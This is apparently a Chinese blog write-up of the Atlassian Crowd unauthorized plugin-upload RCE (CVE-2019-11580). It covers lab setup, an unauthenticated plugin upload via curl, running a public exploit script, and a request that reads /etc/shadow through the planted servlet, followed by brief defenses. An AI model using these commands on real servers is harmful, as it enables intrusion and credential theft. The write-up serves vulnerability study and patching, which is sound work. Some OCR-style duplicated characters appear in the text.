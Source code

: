 # Atlassian Crowd未授权访问漏洞



#### 漏洞概述
Atlassian Crowd和Atlassian Crowd Data Center都是澳大利亚Atlassian公司的产品。Atlassian Crowd是一套基于Web的单点登录系统。该系统为用用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了了pdkinstall开发插件,使其存在安全漏漏洞洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件,执行任意代码/命令,从而获得服务器权限


#### 环境搭建
```bash
wget https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.4.3.zip
unzip atlassian-crowd-3.4.3.zip

cd atlassian-crowd-3.4.3
vim crowd-webapp/WEB-INF/classes/crowd-init.properties    #修改crowd-init.properties 配置文件，设置主目录
    crowd.home=/var/crowd-home    # 主目录位置(根据自己的写)

# 执行启动命令
./start_crowd.sh
```
浏览器访问`http://192.168.0.100:8095` 点击`Set up Crowd`
这里去官网申请试用30天`https://my.atlassian.com/products/index`并填写到license 进行下一步安装,直到安装完成。


###### 未授权访问测试
安装完成之后在插件目录会有一些插件`bundled-plugins`
上传一个标准的插件,来自atlassian-bundled-plugins中的`applinks-plugin-5.4.12.jar`
```bash
curl --form "file_cdl=@applinks-plugin-5.4.12.jar" http://192.168.0.100:8095/crowd/admin/uploadplugin.action -v
```


###### Atlassian Crowd RCE
该漏洞源于网络系统或产品未对输入的数据进行正确的验证。受影响的产品及版本包括：Atlassian Crowd 2.1.x版本，3.0.5之前的3.0.x版本，3.1.6之前的3.1.x版本，3.2.8之前的3.2.x版本，3.3.5之前的3.3.x版本，3.4.4之前的3.4.版本；Atlassian Crowd Data Center 2.1.x版本，3.0.5之前的3.0.x版本，3.1.6之前的3.1.x版本，3.2.8之前的3.2.x版本，3.3.5之前的3.3.x版本，3.4.4之前的3.4.版本。

漏洞利用脚本：`https://github.com/jas502n/CVE-2019-11580`
```bash
git clone https://github.com/jas502n/CVE-2019-11580
cd CVE-2019-11580/
python CVE-2019-11580.py http://192.168.0.100:8095

# 通过浏览器访问链接测试其他命令
curl http://192.168.0.100:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow
```




#### 防御手段
- 设置访问`/crowd/admin/uploadplugin.action`的源ip
- 升级最新版本(3.5.0以上)。










---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/atlassian-crowd%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E/  

